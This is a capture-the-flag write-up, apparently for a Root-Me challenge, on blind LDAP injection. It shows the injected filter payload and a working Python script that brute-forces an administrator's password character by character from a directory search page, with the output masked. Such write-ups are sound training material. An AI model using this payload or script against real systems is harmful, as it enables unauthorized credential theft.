




# LDAP injection - Blind

## Statement :

Retrieve administrator's password.

## Analysis



We get a similar login page as the authentication challenge (SSO v 0.02), but this time there are two links in the top right corner: Authentication and Directory. The Directory link leads to a search page via `?action=dir`.



Searching for `a` returns all entries whose uid or email contains the letter, revealing the full directory:



Searching for `admin` narrows it down to the admin entry alone:



The backend likely builds an LDAP filter like:

```
(&(uid=<search>)(objectClass=*))
```

If the input is not sanitized, we can inject LDAP syntax into the search field to extract data one character at a time.

## Exploit

The idea is to use a prefix match on the `password` attribute. By sending `admin*)(password=a` as the search term, the filter becomes:

```
(&(uid=admin*)(password=a)(objectClass=*))
```

If the guessed prefix matches, the server returns the admin entry. If not, no result is returned. The server appends a `*` wildcard to the search term automatically, so there is no need to add one ourselves. Adding one manually (e.g. `admin*)(password=a*`) would result in a double wildcard `**` and cause an LDAP syntax error.

We can verify this manually. Searching for `admin*)(password=a`, `admin*)(password=b`, `admin*)(password=c` returns no result each time. But searching for `admin*)(password=d` returns the admin entry, confirming the first character of the password is `d`. By iterating through each character position and testing every candidate, we can reconstruct the full password.

I used this script to automate the injection:

```python
import requests
import string
import time
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# ====================== CONFIG ======================

URL = "http://challenge01.root-me.org/web-serveur/ch26/"
CHARSET = string.ascii_lowercase + string.digits
MAX_LENGTH = 64

# ====================================================

session = requests.Session()


def extract():
    result = ""
    print(f"[*] Extracting admin password via blind LDAP injection\n")

    for pos in range(MAX_LENGTH):
        found = False
        for char in CHARSET:
            guess = result + char
            payload = f"admin*)(password={guess}"
            params = {"action": "dir", "search": payload}
            r = session.get(URL, params=params, verify=False)

            if "admin" in r.text:
                result += char
                print(f"[+] Found: {result}")
                found = True
                break

        if not found:
            print(f"\n[*] No more characters found. Extraction complete.")
            break

    return result


def main():
    start = time.time()
    result = extract()
    elapsed = time.time() - start

    print(f"\n[+] Password: {result}")
    print(f"[*] Length:   {len(result)} chars")
    print(f"[*] Time:     {elapsed:.2f}s")


if __name__ == "__main__":
    main()
```

```text
[*] Extracting admin password via blind LDAP injection

[+] Found: *
[+] Found: **
[+] Found: ***
[+] Found: ****
[+] Found: *****
[+] Found: ******
[+] Found: *******
[+] Found: ********
[+] Found: *********
[+] Found: **********
[+] Found: ***********
[+] Found: ************
[+] Found: *************
[+] Found: **************
[+] Found: ***************

[*] No more characters found. Extraction complete.

[+] Password: ***************
[*] Length:   15 chars
[*] Time:     5.84s
```

The extracted password `***************` is the flag.